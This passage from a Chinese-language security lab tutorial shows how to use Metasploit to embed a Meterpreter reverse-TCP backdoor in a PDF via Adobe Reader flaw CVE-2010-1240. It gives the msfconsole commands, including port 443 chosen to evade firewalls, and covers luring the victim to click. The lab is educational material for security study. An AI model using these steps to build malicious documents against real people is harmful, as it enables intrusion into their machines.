 在 msfconsole 下依次按照上述步骤执行，选择攻击模块：

```
msf > use exploit/windows/fileformat/adobe_pdf_embedded_exe
```

此处我们使用的 payload 是 `windows/meterpreter/reverse_tcp`，如果想选择其他的 payload，可以使用 `show payloads` 命令查看并选择。

`windows/meterpreter/reverse_tcp` 是 meterpreter 后门程序，会从被攻击的主机建立到攻击者主机的 TCP 连接，攻击者能够直接进入被攻击的主机。

使用 `windows/meterpreter/reverse_tcp` 作为嵌入的 payload：

```
msf > set payload windows/meterpreter/reverse_tcp
```

对 payload 进行配置，至少需要指定 Kali 的 IP 地址和端口用来接收后门建立的连接，这里需要注意目标主机必须和我们 Kali 主机互相之间可以连接：

```
msf > set lhost 192.168.122.101
msf > set lport 443
```

使用 443 端口的好处是不容易被防火墙拦住。

后续的步骤与前面完全相同，根据需求设定输入的 PDF 文件和输出的 PDF 文件路径，然后 `exploit` 就可以得到结果了。

![此处输入图片的描述](https://doc.shiyanlou.com/document-uid13labid2320timestamp1480500517940.png/wm)

### 4.7 再次查看输出结果

![此处输入图片的描述](https://doc.shiyanlou.com/document-uid13labid2320timestamp1480500524387.png/wm)

是不是比默认的 payload 还要小些？

## 五、总结

### 5.1 总结

本实验中在 Kali Linux 下，利用 Adobe Reader 对嵌入内容不做判断的漏洞，向 PDF 文件中嵌入后门程序，并引导用户去点击运行，从而获得目标主机的访问权限，涉及到的知识点有：

- Linux 基本操作命令
- MSF 终端下的操作流程
- Adobe PDF 嵌入 EXE 漏洞 CVE-2010-1240 介绍
- 如何利用漏洞嵌入后门程序

## 六、课后作业

### 6.1 课后作业

完成以下作业，巩固实验知识：

- 搜索看是否还有其他的 PDF 漏洞攻击模块可以尝试使用，阅读源码理解原理。
- 尝试使用不同的 payload 注入 PDF，对比下不同 payload 的大小有什么区别？

对于不懂的问题，都可随时在[实验楼问答](https://www.shiyanlou.com/questions)中提出，与老师和同学一起交流。